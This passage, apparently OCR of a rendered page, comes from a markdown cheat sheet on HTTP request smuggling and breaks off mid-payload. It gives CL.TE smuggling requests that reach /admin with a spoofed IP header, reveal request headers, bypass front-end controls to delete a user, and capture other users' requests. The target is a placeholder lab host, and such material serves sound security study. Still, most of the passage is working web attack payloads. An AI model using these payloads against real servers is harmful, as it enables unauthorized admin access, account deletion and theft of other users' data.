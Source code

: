         0

        GET /admin HTTP/1.1
        Host: vulnerable-website.com
        X-Original-IP: 127.0.0.1
        ```
    
    - **Revealing request headers**
      - Smuggle a request that captures headers from subsequent requests
      - Example:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 70
        Transfer-Encoding: chunked

        0

        GET / HTTP/1.1
        Host: vulnerable-website.com
        X-API-Key: ${YOUR-API-KEY}
        ```
    
    - **Bypassing front-end security controls**
      - Bypass WAF or other security mechanisms on the front-end
      - Example:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 65
        Transfer-Encoding: chunked

        0

        GET /admin/delete?user=carlos HTTP/1.1
        Host: vulnerable-website.com
        ```
  
  - **Capturing user requests and responses**
    
    - **Capturing request smuggling (CL.TE)**
      - Smuggle a request that captures parts of another user's request
      - Example:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 130
        Transfer-Encoding: chunked

        0

        POST /capture-data HTTP/1.1
        Host: vulnerable-website.com
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 30
